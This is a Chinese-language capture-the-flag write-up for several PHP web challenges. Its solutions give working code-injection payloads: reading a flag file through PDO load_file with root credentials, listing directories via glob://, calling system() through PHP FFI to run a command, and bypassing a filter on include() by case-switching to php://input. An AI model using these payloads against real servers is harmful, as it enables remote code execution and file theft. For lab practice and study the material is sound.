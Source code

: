 ```php
```

Payload:

c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36.txt")') as $row){echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);

### Web77：

输入：

```
c=$a=opendir("glob:///*"); while (($file = readdir($a)) !== false){echo $file . "<br>"; };exit();得到文件flag36x.txt
```

根据提示，去bing了一下FFI

//PHP外部函数接口（FFI）是 PHP 7.4及以上中的接口，其提供了高级语言直接的互相调用，而对于PHP来说，FFI让我们可以方便的调用C语言写的各种库。

payload：

c=$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象

$a='/readflag > 1.txt';

$ffi->system($a);//调用system函数

查看1.txt得到flag

###  Web80：

```php
if(isset($_GET['file'])){ 

  $file = $_GET['file']; 

  $file = str_replace("php", "???", $file); 

  $file = str_replace("data", "???", $file); 

  include($file); 

}else{ 

  highlight_file(__FILE__); 

}
```

审计代码，php和data都会被替换成???

 方法一：

因为没有检查大小写，所以可以使用大小写绕过

bp抓包发送到repeater修改请求头，用php://input伪协议来执行php代码
